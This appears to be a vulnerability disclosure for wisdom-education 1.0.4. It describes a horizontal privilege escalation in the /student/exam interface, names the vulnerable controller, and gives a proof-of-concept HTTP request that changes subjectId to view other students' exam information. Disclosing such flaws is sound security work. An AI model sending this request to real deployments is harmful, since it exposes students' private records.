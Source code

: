 The /student/exam interface of wisdom-education 1.0.4 version has a horizontal privilege escalation vulnerability. An attacker can view others' information by modifying the subjectId parameter.

## Vulnerability Analysis 

Vulnerable class file：src/main/java/com/education/api/controller/student/ExamInfoController.java

![image-20250923225752286](https://github.com/xkalami-Tta0/picx-images-hosting/raw/master/wisdom-education/image-20250923225752286.3gorot5c8b.webp)

Interface invocation：examInfoService.selectStudentExamInfoList

![image-20250923230033358](https://github.com/xkalami-Tta0/picx-images-hosting/raw/master/wisdom-education/image-20250923230033358.2yyq083ynh.webp)

Mainly through the underlying query studentExamInfoDto studentId, studentId is through the participation studentExamInfoDto model, mass participation process did not check for identity, cause excessive view the information of others.

![image1](https://github.com/xkalami-Tta0/picx-images-hosting/raw/master/wisdom-education/image1.3nrzk8r628.webp)

## Vulnerability reproduction

poc

```
GET /student/exam?pageNumber=1&pageSize=9&subjectId=T=traverse points HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
Platform: educationStudent
Accept-Language: zh-CN,zh;q=0.9
Accept: application/json, text/plain, */*
Accept-Encoding: gzip, deflate
Authorization: [your token]
```

![image2](https://github.com/xkalami-Tta0/picx-images-hosting/raw/master/wisdom-education/image2.9gwxtjemb5.webp)
